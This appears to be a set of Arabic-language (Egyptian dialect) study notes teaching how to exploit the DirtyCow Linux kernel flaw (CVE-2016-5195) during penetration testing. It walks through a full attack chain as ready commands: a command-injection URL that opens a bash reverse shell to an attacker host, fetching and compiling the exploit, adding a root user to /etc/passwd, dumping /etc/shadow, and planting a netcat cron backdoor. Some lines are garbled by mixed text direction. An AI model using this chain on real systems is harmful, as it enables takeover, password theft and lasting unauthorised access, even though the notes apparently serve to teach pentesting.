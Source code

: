 # **1. إيه هو DirtyCow (CVE-2016-5195)؟**

## **الشرح العميق:**
DirtyCow هو ثغرة في نواة لينكس (Linux Kernel) اكتشفت سنة 2016 ورقمها CVE-2016-5195. الثغرة دي بتستغل مشكلة في طريقة إدارة الذاكرة (Memory Management) في النظام، وبالأخص في ميزة تسمى "Copy-on-Write" (COW). الفكرة إنك لو كنت مستخدم عادي (Low Privilege User)، تقدر تستغل الثغرة دي عشان تكتب في ملفات المفروض تكون للقراءة بس (Read-Only) أو محمية، زي ملفات النظام المهمة (`/etc/passwd` مثلًا). الهدف الأساسي هو تصعيد الصلاحيات (Privilege Escalation) لتصير `root`.

- **إزاي بتشتغل؟** الثغرة بتستغل حالة سباق (Race Condition) بين الكتابة في الذاكرة وتعديل الملفات، فتقدر تغير محتوى ملفات النظام.
- **الإصدارات المتأثرة:** Kernel من 2.6.22 لحد 4.8.3 (يعني أنظمة قديمة قبل التحديثات بتاعة 2016).

## طرق اكتشافها :
### 1. **فحص إصدار الkernel:**
   - `uname -r` ->  يبقى متأثر.c`3.2.0-23-generic` لو رجع مثلًا
### 2. **تحميل Exploit:**
   - `wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirty.c`.
### 3. **تجميع الكود:**
   - `gcc -pthread dirty.c -o dirtycow`.

## **خلاصة بالعامية المصرية:**
"يعني زي ما تكون لقيت خرم في حيطة السجن، تدخل منه وتطلع الكبير بتاع الحبس! DirtyCow يعني بتستغل عيب في النظام عشان تكتب في حاجات المفروض ماتقربلهاش وتبقى root."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
الثغرة دي خطيرة جدًا لأنها بتدي مستخدم عادي (زي `www-data` مثلًا) القدرة يتحكم في النظام كله عن طريق تعديل ملفات مهمة. يعني:
- **تصعيد صلاحيات:** تقدر تضيف نفسك كـ root أو تغير كلمات سر.
- **تدمير النظام:** لو عايز تخرب، تغير ملفات النظام الأساسية.
- **وصول دائم:** تضيف Backdoor عشان ترجع تاني.

في الـ Pentesting، لو لقيت سيرفر قديم متأثر بـ DirtyCow، ده يعني إنك ممكن تاخد root في دقايق من غير تعقيد.

## طرق استغلالها لو لقتها :
### 1. **تشغيل الـ Exploit:**
   - `./dirtycow`  .->root ويضيف مستخدم جديد بصلاحيات `/etc/passwd`  بيعدل ملف زي
### 2. **التحقق:**
   - `id` -> يبقى نجحت.`uid=0(root)` لو رجع - ، 
### 3. **مثال يدوي:**
   - لو عندك Shell كـ `www-data`:
     - `echo "hacker:x:0:0:root:/root:/bin/bash" >> /etc/passwd` (عادةً ما ينفعش، بس DirtyCow بيخلّيه ينفع).

## **خلاصة بالعامية المصرية:**
"الثغرة دي خطيرة لأنها زي ما تكون لقيت مفتاح السجن في الزبالة، فتحت الباب وطلعت الباشا بتاع الكل! لو لقيتها، يبقى النظام في إيدك في ثواني."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم DirtyCow عشان تصعد من مستخدم عادي لـ root عن طريق تعديل ملفات النظام.
- **مثال واقعي:** لو وصلت لـ Shell كـ `www-data` على سيرفر قديم، تشغل الـ Exploit وتبقى root.

## **خلاصة بالعامية المصرية:**
"لما تلاقي DirtyCow، زي ما تكون لقيت عصاية سحرية في لعبة، تضرب بيها وتبقى الكبير بتاع الماتش في ثانية!"

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29 -> لو وصلت لـ Shell، ابدأ.

## **الخطوة 2: الوصول لـ Shell**
- لو لقيت ثغرة ويب (زي Command Injection):
  - `http://192.168.1.10/ping?ip=127.0.0.1; /bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell -> `id` -> `www-data`.

## **الخطوة 3: التحقق من الkernel**
- في الـ Shell:
  - `uname -r` -> لو رجع `3.16.0-38-generic` (مثلاً)، يبقى متأثر بـ DirtyCow.

## **الخطوة 4: تحميل وتشغيل DirtyCow**
- انقل الـ Exploit للسيرفر:
  - في جهازك: `python3 -m http.server 80`.
  - في الـ Shell: `wget http://192.168.1.100/dirty.c -O /tmp/dirty.c`.
- جمّع الكود:
  - `gcc -pthread /tmp/dirty.c -o /tmp/dirtycow`.
- شغله:
  - `./tmp/dirtycow` -> غالبًا بيضيف مستخدم جديد زي `firefart` بصلاحيات root.

## **الخطوة 5: التحقق من التصعيد**
- `cat /etc/passwd` -> لو لقيت سطر زي `firefart:x:0:0::/:/bin/sh`.
- `su firefart` -> لو طلب كلمة سر (عادةً `firefart`)، ادخلها.
- `id` -> `uid=0(root)` -> نجحت.

## **الخطوة 6: استغلال وتوثيق**
- كـ root:
  - `cat /etc/shadow` -> تسريب كلمات السر.
  - `echo "nc -e /bin/bash 192.168.1.100 9999" > /etc/cron.d/backdoor` -> Backdoor.
- سجل الإصدار المتأثر والخطوات في تقريرك.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت سلاح في لعبة، ضربت بيه الكل، وطلعت الكبير بتاع الحتة! DirtyCow لما تلاقيها، يبقى النظام في جيبك في دقايق."

---

# **الخلاصة النهائية:**
DirtyCow (CVE-2016-5195) هي ثغرة خطيرة في نواة لينكس بتخلّيك تصعد من مستخدم عادي لـ root عن طريق استغلال عيب في الذاكرة. في الـ Pentesting، دور عليها في الأنظمة القديمة بـ `uname -r`، استخدم الـ Exploit عشان تاخد Shell كـ root، ووري العميل إن سيرفره زي بيت مكسور لو ما حدثش! بالطريقة دي، تبقى البطل بتاع اللعبة بسهولة!

---
# اختبر حفظك : [[DirtyCow (CVE-2016-5195). (Q).]]